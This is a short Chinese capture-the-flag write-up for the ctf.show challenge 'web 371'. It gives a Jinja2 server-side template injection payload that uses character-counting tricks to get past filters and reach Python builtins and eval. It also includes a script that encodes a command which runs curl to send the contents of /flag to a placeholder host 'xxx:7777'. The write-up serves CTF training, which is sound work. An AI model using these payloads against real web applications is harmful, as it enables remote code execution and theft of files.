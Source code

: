 ### [web 371](#toc_web-371)

print 被过滤，这里的话我们用反弹 shell 来做

```plain
http://c8f74fd3-a05a-477c-bb97-10325b9ce77d.chall.ctf.show?name=
{% set c=(t|count)%}
{% set cc=(dict(e=a)|join|count)%}
{% set ccc=(dict(ee=a)|join|count)%}
{% set cccc=(dict(eee=a)|join|count)%}
{% set ccccc=(dict(eeee=a)|join|count)%}
{% set cccccc=(dict(eeeee=a)|join|count)%}
{% set ccccccc=(dict(eeeeee=a)|join|count)%}
{% set cccccccc=(dict(eeeeeee=a)|join|count)%}
{% set ccccccccc=(dict(eeeeeeee=a)|join|count)%}
{% set cccccccccc=(dict(eeeeeeeee=a)|join|count)%}
{% set ccccccccccc=(dict(eeeeeeeeee=a)|join|count)%}
{% set cccccccccccc=(dict(eeeeeeeeeee=a)|join|count)%}
{% set coun=(ccc~ccccc)|int%}
{% set po=dict(po=a,p=a)|join%}
{% set a=(()|select|string|list)|attr(po)(coun)%}
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=
%}
{%if x.eval(cmd)%}
abc
{%endif%}
```

cmd 内的内容由以下脚本生成

```plain
def aaa(t):
    t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
    return t
s='__import__("os").popen("curl http://xxx:7777?p=`cat /flag`").read()'
def ccchr(s):
    t=''
    for i in range(len(s)):
        if i<len(s)-1:
            t+='chr('+aaa(str(ord(s[i])))+')%2b'
        else:
            t+='chr('+aaa(str(ord(s[i])))+')'
    return t
print(ccchr(s))
```
